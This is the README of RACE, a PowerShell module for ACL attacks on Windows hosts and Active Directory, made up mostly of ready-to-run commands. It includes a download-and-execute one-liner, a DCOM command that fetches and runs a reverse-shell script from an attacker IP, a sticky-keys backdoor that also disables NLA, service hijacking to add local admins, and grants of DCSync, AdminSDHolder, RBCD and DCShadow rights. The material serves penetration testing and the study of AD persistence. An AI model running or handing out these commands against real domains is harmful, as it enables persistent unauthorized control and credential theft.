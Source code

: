 # RACE
### RACE is a PowerShell module for executing ACL attacks against Windows targets and Active Directory. RACE can be used for persistence and on demand privilege escalationon Windows machines. 
### By [nikhil_mitt](https://twitter.com/nikhil_mitt)

### Usage

Note that RACE is a tool which is used after you have admin or DA (in case of DC) privileges. 
The introductory blog post is available here: https://www.labofapenetrationtester.com/2019/08/race.html

Import the module in current PowerShell session
```powershell
PS C:\> Import-Module C:\RACE-master\RACE.psd1
```
Use dot sourcing
```powershell
PS C:\> . C:\RACE-master\RACE.ps1
```
Download and execute
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/RACE/master/RACE.ps1')
```

Get help about any function
```powershell
PS C:\> Get-Help Set-DCPermissions -Full
```
### Functions

Note that the functions Set-ADACL and Set-DCPermissions need Microsoft ActiveDirectory module. You can get it from a DC or from my GitHub: https://github.com/samratashok/ADModule

### Set-RemotePSRemoting
Use this function to modify ACL of PowerShell Remoting endpoint so that you can access the target machine without admin.
```powershell
PS C:\> Set-RemotePSRemoting -SamAccountName labuser -ComputerName ops-dc
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting.

```powershell
PS C:\> Set-RemotePSRemoting -SamAccountName labuser -ComputerName ops-dc -Credential ops\administrator
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting using explicit credentials.

### Set-RemoteWMI
Use this function to modify ACL of DCOM endpoint and all the namespaces so that you can access the target machine without admin.
```powershell
PS C:\> Set-RemoteWMI -SamAccountName labuser -ComputerName ops-dc
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting.

### Set-RemoteServicePermissions and Set-RemoteServiceAbuse
Use these tmodify ACLs of services on windows machines. 

```powershell
PS C:\> Set-RemoteServicePermissions -SamAccountName labuser -ComputerName ops-mssql -ServiceName ALG -Verbose
```
Use the above command to modify ACL of 'ALG' service on ops-mssql to allow labuser to modify the service (gives 'CCDCLCSWRPWPDTLOCRSDRCWDWO' rights)

```powershell
PS C:\> Set-RemoteServiceAbuse -ComputerName ops-mssql -UserName 'labuser' -ServiceName ALG -Verbose
```
Run the above command as 'labuser' to configure ALG to run as SYSTEM and modify its executable path to add 'labuser'
or other Principal provided in the UserName parameter to the local adminisrators group on the target machines. 

```powershell
PS C:\> sc.exe \\ops-mssql start ALG
```
Run the above command as 'labuser' to execute the payload set as executable of ALG

### Set-RemoteRegistryPermissions
Function which can be used to modify permissions of Remote Registry by modifying a registry key on local or remote machine.

```powershell
PS C:\> Set-RemoteRegistryPermissions -SamAccountName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to modify permissions of the 'Remote Registry' key on the target machine to allow 'labuser' 
access to Remote Registry. 

### Set-RegistryImageFileExecution and Invoke-RegistryAbuse
Set-RegistryImageFileExecution mdifies the Permissions for the registry key 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options' and 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp'.

```powershell
PS C:\> Set-RegistryImageFileExecution -SamAccountName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to modify permissions of the 'Image File Execution Options' key on the target machine to allow 'labuser' 
permissions to modify the key and its subkeys. 
```powershell
PS C:\> Invoke-RegistryAbuse -ComputerName ops-mssql -Method ImageFileExecution -Verbose 
```
Above command sets payload for sethc (sticky keys) and disables NLA.

### Set-DCOMPermissions and Invoke-DCOMAbuse
Set-DCOMPermissions can be used to modify ACLs of DCOM provide non-admin Princiapls access to DCOM.

```powershell
PS C:\> Set-DCOMPermissions -UserName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to add permissions on the target machine for labuser to execute commands using DCOM.
Then use Invoke-DCOMAbuse as labuser to run commands:
```powershell
Invoke-DCOMAbuse -ComputerName ops-build -Method MMC20 -Arguments 'iex(iwr -UseBasicParsing http://192.168.100.31:8080/Invoke-PowerShellTcp.ps1)'
```

### Set-JEAPermissions
Function which can be used to create a new JEA endpoint for PowerShell remoting to provide access for non-admin Principals. 
```powershell
PS C:\> Set-JEAPermissions -ComputerName ops-build -SamAccountName labuser -Verbose 
```
Use the above command to create a new JEA endpoint on the target machine which provides administrator privileges. 

Use the below command to connect to the target machine. Note the -ConfigurationName parameter:
```powershell
PS C:\> Enter-PSSession -ComputerName ops-build -ConfigurationName microsoft.powershell64 
```

### Set-ADACL
The function can set ACL of a domain object specified by TargetSamAccountName or DistinguishedName.

It requires Microsoft's Active Directory module. You either need the AD RSAT tools (available on DC) or get the module 
from here: https://github.com/samratashok/ADModule

```powershell
PS C:\> Set-ADACL -SamAccountName labuser -DistinguishedName 'DC=powershell,DC=local' -GUIDRight DCSync -Server powershell.local -Verbose
```
Use the above command to modify ACL of the domain object powershell.local to add DCSync rights for 'labuser'.

### Set-DNSAbusePermissions and Invoke-DNSAbuse
Use Set-DNSAbusePermissions to modify ACL of DNS Server Object and permissions for the DNS service.
```powershell
PS C:\> Set-DNSAbusePermissions -SAMAccountName labuser -DistinguishedName 'CN=MicrosoftDNS,CN=System,DC=offensiveps,DC=powershell,DC=local' -ComputerName ops-dc -Verbose
```
Use the above command to modify ACL of DNS Server to add permissions for labuser so that it can remotely load DLLs as SYSTEM on the DNS Server.

Use the below command (needs DNS Server module that is available with DNS RSAT) to load the DLL.
```powershell
PS C:\> Invoke-DNSAbuse -ComputerName ops-dc -DLLPath \\ops-build\dll\mimilib.dll -Verbose 
```

### Set-DCPermissions
Function to modify ACL of domain objects for specific attacks.
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName labuser -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=offensiveps,DC=powershell,DC=local' -Verbose 
```
Use the above command to modify ACL of the AdminSDHolder to allow labuser permissions to modify ACL of AdminSDHolder.
Using these permissions, labuser can change ACL of AdminSDHolder and get rights over all the Protected Groups.

```powershell
Set-DCPermissions -Method RBCD -DistinguishedName 'CN=OPS-FILE,OU=Servers,DC=offensiveps,DC=powershell,DC=local' -SAMAccountName labuser -Verbose 
```
Use the above command to modify ACL of OPS-FILE$ user to add permissions for labuser to configure Resource-based Constrained Delegation.

### Set-DCShadowPermissions
Function to modify ACL of multiple domain objects to allow DCShadow execution without Domain Admin privilges

```powershell
PS C:\> Set-DCShadowPermissions -FakeDC emptest -SAMAccountName testuser -Username privuser -Verbose 
Use the above command to modify ACLs to run DCShadow from ps-paw machine as privuser against testuser.
```
### Bugs, Feedback and Feature Requests
Please raise an issue if you encounter a bug or have a feature request.\

### Contributing
You can contribute by fixing bugs or contributing to the code. If you cannot code, please use the tool and provide feedback and bugs!

### Supporting material

The introductory blog post is available here: https://www.labofapenetrationtester.com/2019/08/race.html
The above post contains slides and videos for the DEF CON27 talk for this tool.
